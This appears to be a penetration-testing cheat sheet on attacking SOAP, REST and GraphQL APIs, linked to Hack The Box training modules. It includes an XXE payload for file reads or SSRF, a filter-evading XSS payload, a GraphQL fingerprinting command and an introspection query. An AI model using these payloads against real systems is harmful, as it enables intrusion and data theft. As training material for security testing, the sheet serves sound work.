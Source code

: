 
### API Endpoints

*   [SOAP](https://academy.hackthebox.com/module/details/160)
    *   LFI / SSRF
        *   `<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "[INTERNAL_URL]/[FILE]"> %dtd;]><xxx/>]]></foo></soap:Body>`
    *   XSS
        *   `<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>`
*   [REST](https://academy.hackthebox.com/module/details/268)
    *   IDOR                                     → Guessable Object Identifiers / API Versioning
    *   BFLA                                     → Privileged Endpoints + Improper Authorization Checks
    *   Authentication                  → Cookie & JWT Hijacking / User & Password Spraying / Injection & Juggling Bypasses
    *   Mass Assignment             → Endpoints with PATCH/PUT Capabilities + Assignment Parameters
    *   Web Vulnerabilities          → Server-Side Injections / XSS Attacks
    *   Resource Exhaustion       → File Uploads / Disk Storing Procedures
    *   SSRF                                      → Endpoints with URI Parameters
*   [GraphQL](https://academy.hackthebox.com/module/details/271)
    *   [GraphW00f](https://github.com/dolevf/graphw00f) Fingerprint → `python3 main.py -d -f -t [URL]`
    *   Introspection
        *   `/?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}`
        *   Paste Response in [Voyager](https://graphql-kit.com/graphql-voyager/) → Analyze Schema
    *   Exploitation
        *   Queries / [Mutations](https://academy.hackthebox.com/module/271/section/3156)
        *   Injections / XSS
        *   InQL BurpSuite Extension / [GraphQL-COP](https://github.com/dolevf/graphql-cop) Auditing
